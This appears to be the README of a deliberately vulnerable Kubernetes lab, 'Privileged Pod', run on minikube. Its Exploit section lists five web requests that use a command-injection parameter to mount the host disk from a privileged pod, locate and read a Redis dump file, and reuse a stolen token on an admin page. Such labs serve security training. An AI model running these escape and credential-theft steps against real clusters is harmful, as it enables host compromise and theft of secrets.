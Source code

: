 # Privileged Pod

1. Install and run [minikube](https://kubernetes.io/docs/setup/learning-environment/minikube/#installation).
2. `./build.sh`

## Web

Vulnerable application with RCE and privileged access.

## Redis

## Admin

## Exploit

1. http://192.168.99.100/?cmd=mkdir /tmp/host
2. http://192.168.99.100/?cmd=mount /dev/sda1 /tmp/host
3. http://192.168.99.100/?cmd=find /tmp/host -name "dump.rdb"
4. http://192.168.99.100/?cmd=cat <👆>
5. http://192.168.99.100/admin?token=<👆>
